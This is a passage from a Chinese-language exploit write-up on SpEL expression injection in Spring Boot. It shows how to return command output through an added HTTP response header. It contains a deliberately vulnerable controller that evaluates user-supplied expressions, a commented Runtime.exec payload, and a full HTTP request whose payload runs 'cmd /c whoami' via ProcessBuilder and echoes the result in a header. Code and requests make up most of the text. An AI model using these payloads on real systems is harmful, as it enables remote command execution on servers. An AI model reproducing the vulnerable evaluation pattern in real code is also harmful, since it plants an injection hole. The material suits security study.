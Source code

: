 ## ResponseHeader

这种方法才称得上是通用回显  
这种方法需要有一个方法可以addHeader，可是springboot并不自带这个方法。因此获取到Response有些许困难，需要注册一个response进上下文

```java
@Controller
public class spelcontroller {

    @RequestMapping("/spel")
    @ResponseBody
    public String spelvul(String payload,HttpServletResponse response){
        StandardEvaluationContext context=new StandardEvaluationContext();
        context.setVariable("response",response);
        //String cmdStr = "T(java.lang.ClassLoader).getSystemClassLoader().loadClass('java.lang.Runtime').getRuntime().exec('calc')";
        ExpressionParser parser = new SpelExpressionParser(new SpelParserConfiguration());//创建解析器
        Expression exp = parser.parseExpression(payload);//解析表达式
        return (String) exp.getValue(context);
    }
}
```

```php
POST /spel HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 180

payload=#response.addHeader('x-cmd',new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine())
```

![image.png](assets/1698895942-c3caaced934dafdd549c3950f2423222.png)  
这样就可以把命令执行的结果外带出来了。这种方法是比较轻便的。还是围绕着如何获取response这个点。stucts2有util可以直接添加response，所以可以直接外带。
